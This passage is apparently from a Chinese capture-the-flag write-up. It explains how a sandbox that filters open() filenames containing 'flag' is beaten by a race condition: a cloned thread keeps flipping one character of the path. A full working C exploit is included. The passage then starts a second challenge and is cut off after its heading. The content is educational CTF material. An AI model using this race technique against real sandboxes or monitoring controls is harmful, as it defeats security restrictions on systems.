 # 为什么要打开 /flag 😡

第一问，静态编译即可绕过限制。

第二问，阅读程序逻辑，可发现他截获了 open 操作的文件名参数，然后对其进行判断，如果含 `flag`，则返回假 flag，否则继续正常的系统调用。

假如某次调用中，沙箱得到的文件名不含 flag，但是内核得到的是 `/flag`，那么就能绕过限制。

注意到 `clone` 系统调用是允许的，那么可以开一个线程，不停修改 flag，然后上述情况则有可能发生。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>

char fn[100];

int work(void*) {
    for (int i = 0; i < 100000000; i++) {
        fn[1] = 'a';
        fn[1] = 'f';
    }
}

int main() {
    void *child_stack = malloc(4096);
    clone(&work, child_stack+4096, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES|CLONE_THREAD, NULL);
    memcpy(fn, "/flag", 6);
    char buf[100];
    for (int i = 0; i < 100000; i++) {
        FILE *f = fopen(fn, "r");
        if (f) {
            int n = fread(buf, 1, 100, f);
            if (buf[0] == 'f') fwrite(buf, 1, n, stdout);
            fclose(f);
        }
    }
}
```

# 异星歧途

不难看出，按钮分为四组。查看逻辑可以发现，每组基本独立。

## 第一组
